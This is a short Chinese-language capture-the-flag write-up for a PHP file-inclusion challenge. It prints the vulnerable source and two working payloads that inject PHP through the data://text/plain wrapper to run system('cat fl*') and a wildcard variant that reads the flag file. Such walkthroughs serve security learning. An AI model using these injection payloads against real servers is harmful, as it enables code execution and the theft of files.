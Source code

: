 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

拼接了.php



## 第一种

依旧利用data://text/plain

并通过?>闭合标签

同时利用*匹配字符串

```
?c=data://text/plain,<?php system("cat fl*");?>
```

![image-20250402191444499](./assets/image-20250402191444499.png)

由于<?php system("cat fl*");?>先执行，因此后面的.php无法执行，因此对结果无影响



## 第二种

利用?匹配字符串

```
?c=data://text/plain,<?php system("cat ????.???");?>
```

![image-20250402191032044](./assets/image-20250402191032044.png)